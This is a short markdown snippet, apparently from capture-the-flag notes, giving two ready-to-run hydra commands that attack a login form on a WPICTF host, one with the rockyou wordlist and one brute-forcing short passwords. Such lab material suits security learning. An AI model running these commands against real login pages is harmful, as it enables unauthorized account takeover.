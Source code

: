### HTML form-data bruteforce & wordlist attack

#### Wordlist
```bash
hydra -P rockyou.txt -I -l example_user  wpiadmin.wpictf.xyz  https-post-form "/studLogin:inputUsername=example_user&inputPassword=^PASS^:Invalid username/password" 
```

#### Bruteforce
```bash
hydra -x 4:5:Aa1 -I -l example_user  wpiadmin.wpictf.xyz  https-post-form "/studLogin:inputUsername=example_user&inputPassword=^PASS^:Invalid username/password" 
```
